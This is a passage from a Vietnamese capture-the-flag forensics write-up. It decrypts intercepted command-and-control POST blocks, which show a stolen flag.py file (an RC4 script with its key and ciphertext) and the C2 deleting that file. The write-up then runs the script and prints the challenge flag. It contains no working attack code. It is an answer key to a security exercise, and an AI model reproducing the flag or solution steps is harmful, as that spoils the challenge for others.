========== POST block #5 ==========
hex chars : 6
plain len : 3 bytes
684
```

Hai block này chỉ trả về số `684`.

### POST block #6

```text
========== POST block #6 ==========
hex chars : 1368
plain len : 684 bytes
# Just run the code to get the flag lol

def RC4(key : bytes, plaintext : bytes):
    S = list(range(256))
    j = 0

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    ciphertext = []
    for char in plaintext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        k = S[t]
        ciphertext.append(char ^ k)

    return bytes(ciphertext)

key = b"lookalikechicken"
plaintext = b';fa\x98\xc9\x13\xc8\x89\xda\x04\xed\xb6\x19\x98\xfdgF-\x14S\xa8+\xf50\xc4p\xf90\xb2&j\x081'
print(RC4(key, plaintext).decode())
```

POST block #4/#5 báo file size là `684` bytes, và POST block #6 sau decrypt cũng có `plain len = 684 bytes`.

Vậy nội dung block #6 chính là nội dung file:

```text
C:\Users\BKISC\Desktop\flag.py
```

đã bị exfiltrate.

### POST block #7

```text
========== POST block #7 ==========
hex chars : 108
plain len : 54 bytes
Delete file: C:\Users\BKISC\Desktop\flag.py - Success!
```

C2 đã xóa file sau khi đọc.

---

## 7. Chạy script RC4 để lấy flag

Vậy giờ chỉ cần chạy script. Hàm RC4 sẽ dùng key `lookalikechicken` để giải mã ciphertext và in ra flag thật.

```python
def RC4(key : bytes, plaintext : bytes):
    S = list(range(256))
    j = 0

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    ciphertext = []
    for char in plaintext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        k = S[t]
        ciphertext.append(char ^ k)

    return bytes(ciphertext)

key = b"lookalikechicken"
plaintext = b';fa\x98\xc9\x13\xc8\x89\xda\x04\xed\xb6\x19\x98\xfdgF-\x14S\xa8+\xf50\xc4p\xf90\xb2&j\x081'
print(RC4(key, plaintext).decode())
```

---

## 8. Flag

Kết quả thu được:

```text
BKISC{l0oK_Ou7_f0R_0u71o0k_C2!!!}
```

---

## 9. Flow


